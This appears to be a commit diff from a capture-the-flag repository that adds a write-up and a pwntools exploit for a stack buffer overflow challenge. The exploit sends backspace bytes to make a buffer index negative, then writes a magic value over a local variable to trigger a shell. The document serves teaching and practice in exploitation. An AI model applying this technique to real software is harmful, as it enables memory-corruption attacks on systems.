

42 pwn added

Changed region(s): [[0.0, 0.0279, 0.9657, 0.9497]]

diff --git a/pwn/chall/42/exploit.py b/pwn/chall/42/exploit.py
@@ -9,13 +9,10 @@ p.recvuntil(b"Enter your name: ")
 
 payload = b""
 
-
-
 for _ in range(4):
     payload += b'\x08'
     
 payload += p32(0xbffffabc)
-
 
 
 p.send(payload)

diff --git a/pwn/chall/42/Readme.md b/pwn/chall/42/Readme.md
@@ -1,0 +1,71 @@
+# ELF x86 - Stack buffer overflow basic 3
+
+**Challenge:** small vulnerable binary that prompts `Enter your name:` and reads bytes in a loop into local variables:
+
+* `char buffer[64];`
+* `int check;`
+* `int i = 0;`
+* `int count = 0;`
+
+Program behavior (relevant parts):
+
+* Each input byte is `read(..., &i, 1)` (1 byte written into `int i`).
+* `switch(i)` handles special bytes:
+
+  * `'\n'` → bell
+  * `0x08` (backspace) → `count--;` and print backspace
+  * `0x04` → prints tab and `count++;`
+  * default → `buffer[count] = i; count++;`
+* At top of loop it checks `if (check == 0xbffffabc) shell();`
+
+Goal: make the program call `shell()` (i.e., make `check == 0xbffffabc`) without any privileged interaction.
+We control the input bytes sent to stdin.
+
+---
+
+## Vulnerability summary
+
+1. **Out-of-bounds index / negative index write**
+   The program uses `count` as an index into `buffer` but does not bound check nor prevent `count` from going negative. Special handling of backspace (`0x08`) decrements `count`. By sending backspace bytes we can make `count` negative. Subsequent `default` writes use `buffer[count]` with a negative index — writing before the `buffer` area on the stack and corrupting other local variables (in this case `check`).
+
+2. **Uninitialized `check`**
+   `check` is never initialized by the program, so its value is undefined at start — the program relies on `check` equalling a magic value to spawn a shell. We can *set* `check` by writing bytes into the appropriate stack location using negative `count`.
+
+3. **`read(..., &i, 1)` writes a single byte into the least-significant byte of an `int`**
+   That is odd but workable: the byte read is subsequently used in the `switch` and stored into the buffer/index. Because the code stores `i` into `buffer[count]` (promoted/truncated as needed) this reads and writes single bytes.
+
+**Net effect:** using backspace bytes to drive `count` negative, then sending the 4 bytes of the magic value in **little-endian** order will write those bytes into the `check` variable on the stack. When the loop reaches the `if (check == 0xbffffabc)` test, it will be true and `shell()` will be called.
+
+---
+
+## Exploit idea (high level)
+
+1. Send `0x08` (backspace character) repeated `N` times so `count` becomes `-N`.
+2. Send 4 bytes that represent `0xbffffabc` in little-endian (`\xbc\xfa\xff\xbf`). Those bytes will be stored by `buffer[count]`, `buffer[count+1]`, ... which map to memory locations before `buffer` — overwriting `check`.
+3. The next loop iteration checks `if (check == 0xbffffabc)` and calls `shell()`.
+
+---
+
+## exploit
+
+```python
+#!/usr/bin/env python3
+from pwn import *
+
+context.log_level = 'info'
+
+p = process('./chall')
+
+p.recvuntil(b"Enter your name: ")
+
+payload = b""
+
+for _ in range(4):
+    payload += b'\x08'
+    
+payload += p32(0xbffffabc)
+p.send(payload)
+p.interactive()
+```
+
+![result](./img/result.png)
